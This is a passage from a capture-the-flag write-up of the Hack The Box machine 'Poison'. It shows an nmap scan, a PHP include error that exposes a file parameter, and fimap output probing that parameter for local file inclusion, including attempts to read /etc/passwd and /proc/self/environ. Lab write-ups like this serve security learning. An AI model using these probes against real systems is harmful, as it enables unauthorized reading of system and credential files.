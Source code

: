 <pre>Nmap scan report for 10.10.10.84</pre>

<pre>Host is up, received user-set (0.032s latency).</pre>

<pre>PORT STATE SERVICE REASON</pre>

<pre>80/tcp open http syn-ack ttl 63</pre>

<pre>| http-enum:</pre>

<pre>| /info.php: Possible information file</pre>

<pre>|_ /phpinfo.php: Possible information file</pre>

<pre>Nmap done: 1 IP address (1 host up) scanned in 3.42 seconds</pre>

Here is what we can see from the website.

<img class="alignnone wp-image-33 size-full" src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2018/04/poison-port-80.png?resize=680%2C246" alt="poison port 80" width="680" height="246" srcset="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2018/04/poison-port-80.png?w=916 916w, https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2018/04/poison-port-80.png?resize=300%2C108 300w, https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2018/04/poison-port-80.png?resize=768%2C278 768w" sizes="(max-width: 680px) 100vw, 680px" data-recalc-dims="1" /> I entered testscript.php in the field and i got an error:

<pre><b>Warning</b>: include(testscript.php): failed to open stream: No such file or directory in <b>/usr/local/www/apache24/data/browse.php</b> on line <b>2</b>

 <b>Warning</b>: include(): Failed opening 'testscript.php' for inclusion (include_path='.:/usr/local/www/apache24/data') in <b>/usr/local/www/apache24/data/browse.php</b> on line <b>2</b></pre>

Now to search for possible LFI

<pre>[root:~/Desktop/poison]# fimap -u "http://10.10.10.84/browse.php?file=" [2/1957]

fimap v.1.00_svn (My life for Aiur) 

:: Automatic LFI/RFI scanner and exploiter 

:: by Iman Karim (fimap.dev@gmail.com)

SingleScan is testing URL: 'http://10.10.10.84/browse.php?file='

[14:53:52] [OUT] Inspecting URL 'http://10.10.10.84/browse.php?file='...

[14:53:52] [INFO] Fiddling around with URL...

[14:53:52] [OUT] [PHP] Possible file inclusion found! -&gt; 'http://10.10.10.84/browse.php?file=z2hu63pz' with Parameter 'file'.

[14:53:52] [OUT] [PHP] Identifying Vulnerability 'http://10.10.10.84/browse.php?file=' with Parameter 'file'...

[14:53:53] [INFO] Scriptpath received: '/usr/local/www/apache24/data'

[14:53:53] [INFO] Operating System is 'Unix-Like'.

[14:53:53] [INFO] Testing file '/etc/passwd'...

[14:53:53] [INFO] Testing file '/proc/self/environ'...

[14:53:53] [INFO] Testing file 'php://input'...

....

....

########################################################
